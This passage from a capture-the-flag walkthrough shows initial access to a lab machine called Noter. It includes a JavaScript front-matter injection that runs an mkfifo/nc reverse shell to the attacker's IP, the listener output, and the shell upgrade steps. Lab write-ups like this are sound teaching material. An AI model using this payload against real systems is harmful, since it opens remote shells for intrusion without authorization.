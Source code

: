 I’ll start a Python webserver and a `nc` listener, and submit `http://10.10.14.6/payload.md` to Noter. There’s a connection at the webserver and then a connect at `nc`:

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.160 60204
/bin/bash: 1"))\n---RCE: ambiguous redirect

```

It’s not liking a redirect, which is largely what this shell is based on (see my [detailed video](https://www.youtube.com/watch?v=OjkVep2EIlw) on it). I’ll switch to the `mkfifo` rev shell (detailed [video](https://www.youtube.com/watch?v=_q_ZCy-hEqg) on that one too) with a new payload:

```
---js\n((require("child_process")).execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 443 >/tmp/f"))\n---RCE

```

This time it works!

```

oxdf@hacky$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.160 60316
/bin/sh: 0: can't access tty; job control turned off
$

```

I’ll do the [shell upgrade trick](https://www.youtube.com/watch?v=DqE6DxqJg8Q):

```

$ script /dev/null -c bash
Script started, file is /dev/null
svc@noter:~$ ^Z
[1]+  Stopped                 nc -lnvp 443
oxdf@hacky$ stty raw -echo; fg
nc -lnvp 443
            reset
svc@noter:~$ 

```

And grab `user.txt`:

```

svc@noter:~$ cat user.txt
c83fff05************************

```
